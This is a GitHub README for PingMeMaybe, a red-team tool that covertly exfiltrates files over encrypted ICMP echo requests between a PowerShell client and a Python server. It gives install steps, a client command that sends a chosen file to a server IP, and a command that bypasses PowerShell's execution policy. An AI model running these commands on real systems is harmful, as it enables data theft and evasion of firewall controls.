 # PingMeMaybe👻

[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](LICENSE)
![PowerShell](https://img.shields.io/badge/PowerShell-teal?logo=powershell&logoColor=white) 
![Python](https://img.shields.io/badge/Python-yellowgreen?logo=python&logoColor=white)

> **Covert ICMP-based file exfiltration tool**  
> Encrypted file transfer over ICMP echo requests for stealthy data smuggling.

---
## Overview

PingMeMaybe is a stealthy, encrypted file exfiltration tool leveraging ICMP echo request packets (ping) to covertly transmit files between a Windows client (PowerShell) and a server (Python).  
This tool is designed for red teamers and penetration testers who want to simulate data exfiltration via ICMP — a commonly allowed protocol that can bypass many firewall rules.

## Installation

### Server Requirements

- Python 3.7+
- Required Python packages:
  - `cryptography`
  - `rich`

### Download
Clone the repository or download the scripts manually:
```bash
git clone https://github.com/MAXIVA11/PingMeMaybe.git
cd PingMeMaybe
pip install -r requirements.txt
```
 
## Usage

### Server

Run the Python server script with root privileges to listen for incoming ICMP packets:

```bash
sudo python3 server.py
```
On startup, the server will generate and display a random AES-GCM key.
Copy this key exactly as shown — you will need it on the client side.

### Client

Run the PowerShell client script on a Windows machine with the following parameters:

```powershell
.\Invoke-PingMeMaybe.ps1 -Target <Server_IP> -File <Path_to_File> -HexKey <AES-GCM_Key>
```
- **Target**: The IP address of the machine running the server.

- **File**: The full path to the file you want to exfiltrate.

- **HexKey**: The AES-GCM key generated by the server (copy-paste exactly).

### Notes

- PowerShell 7+ is recommended for AES-GCM support; if unavailable, the script falls back to AES-CBC+HMAC encryption.

- Make sure ICMP echo requests are allowed through firewalls on both client and server

- If you get a **"running scripts is disabled"** error in PowerShell, temporarily bypass the execution policy with:

  ```powershell
  Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force
  ```

## Photos

### Server Console Example
![image](https://github.com/user-attachments/assets/74012396-64f4-4578-9e5b-1d3e5d4cd5bf)


### Client Console Example
![image](https://github.com/user-attachments/assets/16391aa0-d0b7-4a3c-8867-3428b0ca4d01)

---

## Contribution

Contributions, issues, and feature requests are welcome!  
Feel free to check the [issues page](https://github.com/MAXIVA11/PingMeMaybe/issues).
